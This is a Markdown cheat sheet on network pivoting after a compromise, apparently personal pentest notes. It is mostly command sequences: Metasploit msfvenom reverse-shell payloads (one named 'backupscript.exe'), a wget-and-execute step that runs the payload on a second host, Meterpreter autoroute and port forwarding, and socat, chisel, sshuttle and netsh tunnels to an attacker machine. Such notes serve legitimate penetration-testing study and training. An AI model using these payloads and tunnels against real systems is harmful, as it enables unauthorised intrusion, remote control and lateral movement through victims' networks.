 # Pivoting

## Proxy SOCKS with SSH

```bash
$ ssh -D 9050 root@victime
$ tail /etc/proxychains.conf
...
[ProxyList]
socks4 	127.0.0.1 9050
$ sudo proxychains nmap -sT -F other_host
```

To be noted:
 - Only TCP Connect Scan is supported by proxychains (default with nmap)
 - sudo is mandatory (RAW socket by proxychains)

## Proxy SOCKS with MSF

### On attacker

```bash
$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=other_host -f elf -o reverse.bin LPORT=4444
$ scp reverse.bin root@victim:/tmp
$ ssh -D 9050 -R victim_other_ip:4444:0.0.0.0:8000 root@victim
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
msf6 exploit(multi/handler) > run
```

### On victim

```bash
$ cp /tmp
$ python -m http.server 8765
```

### On other_host

```bash
$ wget http://victim_other_ip:8765/reverse.bin
$ chmod +x reverse.bin
$ ./reverse.bin
```

### Pivoting from Victim

#### Scanning network 

 * From bash: `for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done`
 * From MSF: `msf6 exploit(multi/handler) >  run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/24`

#### Nmap scan:

##### Open SOCKS Proxy

From MSF (outside session)
```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > run
msf6 auxiliary(server/socks_proxy) > jobs
```

##### Routing to our VM

To tell our socks_proxy module to route all the traffic via our Meterpreter session, we can use the post/multi/manage/autoroute module.
Then, we route all traffic through proxychains.

Before autoroute on **Victim**:

```bash
$ route -n

```

From MSF (outside meterpreter session)
```
[msf](Jobs:1 Agents:1) auxiliary(server/socks_proxy) >> use post/multi/manage/autoroute
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> set SESSION 1
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> set SUBNET 172.16.5.0
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> run
```

After autoroute on **Victim**:
```bash
$ route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         10.129.0.1      0.0.0.0         UG    0      0        0 ens192
10.129.0.0      0.0.0.0         255.255.0.0     U     0      0        0 ens192
172.16.4.0      0.0.0.0         255.255.254.0   U     0      0        0 ens224
```

##### Nmap scan with proxychains

```bash
$ tail /etc/proxychains4.conf 
[ProxyList]
socks4 	127.0.0.1 9050
$ sudo proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

#### Ports forwarding

##### Local => Victim => Other Host

Useful to interact with a local post and use local tools.

 * Listen to the port 3300 on **Attacker**
 * Forward all packets to **victim:8080**

From MSF (inside meterpreter session)
```
(Meterpreter 1)(/home/ubuntu) > portfwd add -l 3300 -p 8080 -r victim
```

Interact with service
```bash
$ curl http://localhost:8080/
```

##### Other Host => Victim => Local

Useful to get reverse shell to connect to local meterpreter

From MSF (inside meterpreter session)
```
(Meterpreter 1)(/home/ubuntu) > portfwd add -R -l 8081 -p 1234 -L Attacker
```

A server is started on **victim**:
```
$ netstat -antop | grep 1234
tcp6       0      0 :::1234                 :::*                    LISTEN      1784/backupjob       off (0.00/0/0)
```

On **Attacker**, craft reverse meterpreter which connect to **victim**, upload and execute it onn **other_host**
```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=victim -f exe -o backupscript.exe LPORT=1234
````

On **Attacker** :
```bash
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8081
msf6 exploit(multi/handler) > run
```

## Port forwarding with SOCAT

### Local => Victim => Other Host

On **victim**:
```bash
$ socat TCP4-LISTEN:8080,fork TCP4:other_host:8443
$ netstat -antop | grep socat
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      4207/socat           off (0.00/0/0)
```

###  Other Host => Victim => Local

Reverse tunneling from other_host to attacker through victim

On **victim**:
```bash
$ socat TCP4-LISTEN:1234,fork TCP4:attacker:8081
$ netstat -antop | grep socat
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      4207/socat           off (0.00/0/0)
```

## Other tools

 - plink : `plink -ssh -D 9050 ubuntu@10.129.15.50`
 - sshuttle: `sudo sshuttle -r root@victim "subnet other host"/23 -v`
 - rpivot
 - DNS Tunneling: dnscat2
 - ICMP Tunneling: ptunnel-ng

### chisel

On **attacker**
```
$ chisel server -v --socks5 --reverse --port 5036
$ tail /etc/proxychains4.conf                        
[ProxyList]
socks5  127.0.0.1 5136
```

On **Victim**:
```bash
$ chisel client 172.22.0.36:5036 R:5136:socks
```

After connection from chisel **Victim**, on **attacker**:
```bash
$ sudo netstat -antop | grep chisel
tcp        0      0 127.0.0.1:5136          0.0.0.0:*               LISTEN      1449854/./chisel_1.  off (0.00/0/0)
```

### netsh

On Windows **Victim**:
```
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```
